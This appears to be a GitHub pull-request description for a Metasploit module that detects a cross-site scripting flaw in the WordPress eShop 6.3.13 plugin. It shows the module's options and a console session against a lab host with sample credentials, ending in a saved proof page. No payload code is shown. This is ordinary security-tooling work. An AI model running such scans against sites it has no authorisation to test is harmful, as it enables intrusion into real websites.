

#### Add WordPress eShop XSS Vulnerability.

  Application: WordPress Plugin eShop 6.3.13
  Homepage: https://wordpress.org/plugins/eshop/
  Source Code: https://downloads.wordpress.org/plugin/eshop.6.3.13.zip 
  References: https://wpvulndb.com/vulnerabilities/8180

#### Vulnerable packages*
        
  6.3.13
  
#### Usage:

##### Linux (Ubuntu 12.04.5 LTS):
```
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf>  use auxiliary/scanner/http/wp_eshop_xss_scanner 
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_eshop_xss_scanner)  show options 

Module options (auxiliary/scanner/http/wp_eshop_xss_scanner):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target address range or CIDR identifier
   RPORT        80               yes       The target port
   TARGETURI    /                yes       The base path to the wordpress application
   THREADS      1                yes       The number of concurrent threads
   VHOST                         no        HTTP server virtual host
   WP_PASSWORD                   yes       A valid password
   WP_USERNAME                   yes       A valid username

msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_eshop_xss_scanner)  info 

       Name: WordPress eShop XSS Scanner
     Module: auxiliary/scanner/http/wp_eshop_xss_scanner
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2015-09-04

Provided by:
  Ehsan Hosseini
  Roberto Soares Espreto <robertoespreto@gmail.com>

Basic options:
  Name         Current Setting  Required  Description
  ----         ---------------  --------  -----------
  Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                        yes       The target address range or CIDR identifier
  RPORT        80               yes       The target port
  TARGETURI    /                yes       The base path to the wordpress application
  THREADS      1                yes       The number of concurrent threads
  VHOST                         no        HTTP server virtual host
  WP_PASSWORD                   yes       A valid password
  WP_USERNAME                   yes       A valid username

Description:
  This module attempts to exploit a Cross-Site Scripting in eShop 
  Plugin for WordPress, version 6.3.13 and likely prior in order if 
  the instance is vulnerable.

References:
  https://packetstormsecurity.com/files/133480
  https://wpvulndb.com/vulnerabilities/8180

msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_eshop_xss_scanner)  set RHOSTS 10.10.10.20
RHOSTS => 10.10.10.20
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_eshop_xss_scanner)  set WP_USERNAME espreto
WP_USERNAME => espreto
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_eshop_xss_scanner)  set WP_PASSWORD P@ssw0rd
WP_PASSWORD => P@ssw0rd
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_eshop_xss_scanner)  check 
[*] 10.10.10.20:80 - The target appears to be vulnerable.
[*] Checked 1 of 1 hosts (100% complete)
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_eshop_xss_scanner)  run

[+] 10.10.10.20:80 - Vulnerable to Cross-Site Scripting the eShop 6.3.13 plugin for WordPress
[+] Save in: /home/espreto/.msf4/local/79818718.html
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_eshop_xss_scanner)  firefox /home/espreto/.msf4/local/79818718.html
[*] exec: firefox /home/espreto/.msf4/local/79818718.html
```

This will open the browser:


